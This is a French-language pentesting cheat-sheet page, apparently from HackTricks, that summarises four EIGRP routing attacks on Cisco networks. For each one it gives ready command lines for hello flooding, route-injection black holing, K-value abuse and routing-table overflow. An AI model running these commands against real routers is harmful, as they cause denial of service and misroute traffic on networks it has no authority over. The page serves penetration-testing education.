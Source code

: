 # Attaques EIGRP

{{#include ../../banners/hacktricks-training.md}}

**Ceci est un résumé des attaques exposées dans** [**https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9**](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9). Consultez-le pour plus d'informations.

## **Attaque de Faux Voisins EIGRP**

- **Objectif** : Surcharger les CPU des routeurs en les inondant de paquets hello EIGRP, ce qui peut entraîner une attaque par déni de service (DoS).
- **Outil** : Script **helloflooding.py**.
- **Exécution**:
%%%bash
~$ sudo python3 helloflooding.py --interface eth0 --as 1 --subnet 10.10.100.0/24
%%%
- **Paramètres** :
- `--interface` : Spécifie l'interface réseau, par exemple, `eth0`.
- `--as` : Définit le numéro du système autonome EIGRP, par exemple, `1`.
- `--subnet` : Définit l'emplacement du sous-réseau, par exemple, `10.10.100.0/24`.

## **Attaque de Trou Noir EIGRP**

- **Objectif** : Perturber le flux de trafic réseau en injectant une route fausse, menant à un trou noir où le trafic est dirigé vers une destination inexistante.
- **Outil** : Script **routeinject.py**.
- **Exécution**:
%%%bash
~$ sudo python3 routeinject.py --interface eth0 --as 1 --src 10.10.100.50 --dst 172.16.100.140 --prefix 32
%%%
- **Paramètres** :
- `--interface` : Spécifie l'interface du système de l'attaquant.
- `--as` : Définit le numéro AS EIGRP.
- `--src` : Définit l'adresse IP de l'attaquant.
- `--dst` : Définit l'adresse IP du sous-réseau cible.
- `--prefix` : Définit le masque de l'adresse IP du sous-réseau cible.

## **Attaque d'Abus des Valeurs K**

- **Objectif** : Créer des perturbations et des reconnexions continues au sein du domaine EIGRP en injectant des valeurs K modifiées, entraînant effectivement une attaque DoS.
- **Outil** : Script **relationshipnightmare.py**.
- **Exécution**:
%%%bash
~$ sudo python3 relationshipnightmare.py --interface eth0 --as 1 --src 10.10.100.100
%%%
- **Paramètres** :
- `--interface` : Spécifie l'interface réseau.
- `--as` : Définit le numéro AS EIGRP.
- `--src` : Définit l'adresse IP d'un routeur légitime.

## **Attaque de Débordement de Table de Routage**

- **Objectif** : Mettre à rude épreuve le CPU et la RAM du routeur en inondant la table de routage avec de nombreuses fausses routes.
- **Outil** : Script **routingtableoverflow.py**.
- **Exécution**:
%%%bash
sudo python3 routingtableoverflow.py --interface eth0 --as 1 --src 10.10.100.50
%%%
- **Paramètres** :
- `--interface` : Spécifie l'interface réseau.
- `--as` : Définit le numéro AS EIGRP.
- `--src` : Définit l'adresse IP de l'attaquant.

{{#include ../../banners/hacktricks-training.md}}

